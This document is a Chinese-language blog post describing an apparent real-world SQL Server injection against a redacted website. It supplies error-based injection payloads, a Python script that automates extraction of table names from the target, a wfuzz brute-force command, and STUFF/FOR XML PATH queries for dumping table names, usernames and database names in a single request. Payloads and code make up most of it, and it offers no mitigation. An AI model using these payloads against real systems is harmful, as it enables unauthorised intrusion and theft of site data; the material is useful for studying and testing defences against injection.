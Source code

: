 ```yaml
---
date: "2020-03-02T00:00:00Z"
description: 某次**，发现一处SQL Server注入点
title: SQL Server注入 - STUFF与XML Path
url: /archivers/2020-03-02/3
---
```


## 背景

某次XX，发现一处SQL Server注入点

## 报错注入

SQL Server注入，一般也是先找库、再找表、再查字段、最终查询数据。

## 查库

1.查第一个：

```sql
id=1 and (SELECT top 1 Name FROM Master..SysDatabases)>0 --
```

2.NOT IN

```sql
id=1 and (SELECT top 1 Name FROM Master..SysDatabases where name not in ('master'))>0 --
```

其中，NOT IN的集合会不断增加，最终无法查出其他结果，那么这个集合就是所有的数据库名称。

## 查表

在这一步，我们就可以自动化实现了：

```python
import requests
import re

table_list = ['']

def get_sqlserver_table(table_list, table_num):
    for num in range(0,table_num):
        # print("','".join(table_list))
        sql_str = "and (select top 1 name from [xxxx].sys.all_objects where type='U' AND is_ms_shipped=0 and name not in ('{}'))>0".format("','".join(table_list))
        url = "http://www.xxxxx.cn/x.aspx?cid=1' {} AND 'aNmV'='aNmV".format(sql_str)
        r = requests.get(url, headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.87 Safari/537.36'})
        res = re.search(r'\'(.*)\'', r.content.decode('utf-8'),  re.M|re.I)
        table_name = str(res.group(1))
        table_list.append(table_name)
        print("[{}] - TableName: {}".format(str(r.status_code), table_name))
if __name__ == "__main__":
    get_sqlserver_table(table_list, 16)

```

当取得第16个的时候，还是没有出现用户表、管理员表等，而且网站抛出了错误，无法继续取，突然没有其他办法了。

![2020-03-01-11-34-21](../../../static/images/94c559aa-4f5f-11ec-94ff-00d861bf4abb.png)


先来分析一下语句：

```sql
cid =1 and (select top 1 name from [数据库名称].sys.all_objects where type='U' AND is_ms_shipped=0 and name not in (''))>0 AND 'aNmV'='aNmV
```

这是第一次请求的Payload，集合这里我写个空，不管怎样，集合都可以取得第一个表名。第二个、第三个表名都会向集合增加，以此类推，通过SQLMAP判断，有146个表。

到第16个因为原始语句有干扰，不能继续取得后续的表名，但我不想放弃。

于是，又想到通过FUZZ的方式：

![2020-03-01-11-34-39](../../../static/images/9505ce86-4f5f-11ec-bb7b-00d861bf4abb.png)


```
wfuzz -c -z file,/usr/shar/sqlmap/data/common-table.txt --sc 500 "http://www.xxx/xxx?cid=1%27%20and%20%20(select%20top%201%20COLUMN_NAME%20from%20xxx.information_schema.columns%20where%20TABLE_NAME=%27Hsoft_FUZZ%27%20and%20COLUMN_NAME%20not%20in(%27x%27))%3E0%20and%20%27s%27=%27s"
```

- `Hsoft_` 为前缀
- sc 500 只匹配错误页面（报错注入）

但是字典貌似不够强大，我就去查询SQL Server有没有类似将多行数据合并为一行的办法。


我知道MySQL中有GroupConcat类似的函数，但SQL Server没有，这点很遗憾~ 没有继续使用SQL Map是因为SQLMAP根本无法取得任何一个表名，期间我也分析了SQL MAP的Payload，请求实在是多，就放弃了这条线。


## STUFF与XML Path

STUFF字符串函数是将字符串插入到另一个字符串中。它会删除开始位置第一个字符串中的指定长度的字符，然后将第二个字符串插入到开始位置的第一个字符串中，语法如下。

```sql
STUFF（<character_expression>，<开始>，<长度>，<character_expression>）
<character_expression>
```

参数是给定的字符串数据，可以是字符或二进制数据的常量，变量或列。`<start>`参数是一个整数值，指定开始删除和插入的位置，可以是BIGINT类型。如果`<开始>`或`<长度>`参数为负数，则返回NULL字符串。如果`<start>`参数比第一个`<character_expression>`长，则返回一个NULL字符串。 <length>参数可以是BIGINT类型，它是一个整数，指定要删除的字符数。如果<length>比第一个`<character_expression>`长，则删除发生到最后一个`<character_expression>`中的最后一个字符。


STUFF最常见的用途莫过于结合FOR XML PATH对返回JSON字符串的拼接。首先利用FOR XML PATH则返回XML格式的字符串，我们将FOR XML PATH添加到查询的末尾，此时允许我们将查询的结果作为XML元素输出，元素名称包含在PATH参数中。

如：

```sql
SELECT name FROM dbo.base_pay_type WHERE is_enabled = 1
```

类似的SQL可能会返回多行数据，因此可以通过STUFF与XML PATH集合使用：


- 将查询到的数据转换成行，以逗号隔开，以`[]`包裹


```sql
SELECT STUFF((SELECT  '[' + name + '],'  
FROM(SELECT name FROM dbo.base_pay_type WHERE is_enabled = 1) a  FOR  XML PATH('')  ), 1,0, '') AS Name 
```

![2020-03-01-11-35-00](../../../static/images/9566319a-4f5f-11ec-9b2c-00d861bf4abb.png)

直接套用到注入场景：

```sql
SELECT STUFF((SELECT  '[' + name + '],'  FROM(SELECT name from 数据库名称.sys.all_objects where type='U' AND is_ms_shipped=0) a  FOR  XML PATH('')  ), 1,0, '')
```


在sql shell中直接执行即可返回所有表名：

![2020-03-01-11-35-15](../../../static/images/95b9b216-4f5f-11ec-9ec8-00d861bf4abb.png)

所有表名以`[表名],`分割。

通过这个办法，我们可以套用很多需要多次请求注入的需求，如：

- 取得某个表10个用户名

```sql
SELECT STUFF((SELECT  '[' + username + '],'  FROM(SELECT Top 10 username from 数据库名称.User ) a  FOR  XML PATH('')  ), 1,0, '')
```

- 取得所有数据库名

```sql
SELECT STUFF((SELECT  '[' + Name + '],'  FROM(SELECT  Name from Master..SysDatabases ) a  FOR  XML PATH('')  ), 1,0, '')
```

其他场景自行想象！
